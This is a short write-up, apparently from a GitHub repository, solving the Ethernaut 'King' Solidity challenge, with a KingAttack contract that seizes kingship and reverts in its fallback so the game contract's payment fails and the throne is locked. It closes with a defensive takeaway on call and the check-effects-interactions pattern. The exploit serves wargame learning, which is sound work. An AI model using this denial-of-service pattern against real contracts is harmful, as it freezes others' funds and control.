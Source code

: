 <div align="center">

<img src="../assets/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/9-king-requirements.webp" width="800px"/>

## The hack

It requires an understanding of how `transfer` works in solidity, and when and how to use it.

## Solution

Since in the `King` contract the `recieve` function transfers to the soon to be previous king the msg.value using `transfer` and it does not check if it has worked, all we need to do is deploy a contract that first becomes the king, and in its fall back make sure the transfer to it (which will happen when Ethernaut tries to take control off the level after you have submitted it) it will fail.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract KingAttack {

    // take in the address of the King contract, call its fallback to
    // pass it ether and become the new king
    // and then artifically induce failure by making a revert in our fallbakc
    // (because ethernaut is going to try take over  the contract,
    // but the transfer it does will fail as we're revertting it in our fallback)


    constructor (address _kingAddress) public payable {
        address(_kingAddress).call{value: msg.value}("");
        // the ("") symbolises that we're not calling a specific function but just the
        //fallback or receive

    }

    fallback() external payable {
        revert("Gotcha");
    }
}
```

## Takeaway

To use `call` instead of transfer and send, and to avoid re-entrancy with call, follow the check-effect-interaction pattern

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
